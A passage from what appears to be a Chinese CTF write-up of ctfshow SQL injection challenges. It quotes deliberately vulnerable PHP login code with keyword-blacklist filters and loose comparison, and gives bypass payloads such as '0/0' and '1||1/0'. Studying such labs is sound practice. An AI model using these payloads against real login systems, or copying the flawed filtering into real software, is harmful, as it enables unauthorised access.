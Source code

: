 

```
返回逻辑


  //用户名检测
  if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\'|\"/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
      
```

> ![image-20250209215646783](../assets/image-20250209215646783.png)
>
> [ctfshow-sql注入-超详解(172-200)_ctfshow 172-CSDN博客](https://blog.csdn.net/qq_50589021/article/details/119426002)

所以payload为

```
0/0
或者
1||1/0
```

https://stackoverflow.com/questions/18883213/why-select-from-table-where-username-0-shows-all-rows-username-column-is-v



#### web189

```
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";
```

```

  //用户名检测
  if(preg_match('/select|and| |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleep|benchmark/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
```